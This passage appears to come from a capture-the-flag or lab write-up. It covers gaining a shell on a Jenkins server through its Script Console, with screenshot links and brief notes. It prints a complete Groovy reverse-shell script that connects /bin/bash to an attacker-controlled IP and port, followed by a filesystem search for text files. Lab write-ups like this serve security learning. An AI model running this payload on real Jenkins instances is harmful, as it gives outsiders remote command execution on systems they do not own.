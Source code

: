 ![Pasted image 20251008180806.png](thm_pics/Pasted%20image%2020251008180806.png)

- Then we can attack jenkins by using Script console

![Pasted image 20251008181002.png](thm_pics/Pasted%20image%2020251008181002.png)

- then i found groovy script, which uses reverse shell to connect back to our target with port 3456, but we must set up a listener first

`String host="10.23.125.244";`  
`int port=3456; String cmd="/bin/bash";`  
`Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`

![Pasted image 20251008181345.png](thm_pics/Pasted%20image%2020251008181345.png)

- got access to jenkins
- find anything with .txt at the end : `find / -type f -name "*.txt" 2>/dev/null`

![Pasted image 20251008191215.png](thm_pics/Pasted%20image%2020251008191215.png)
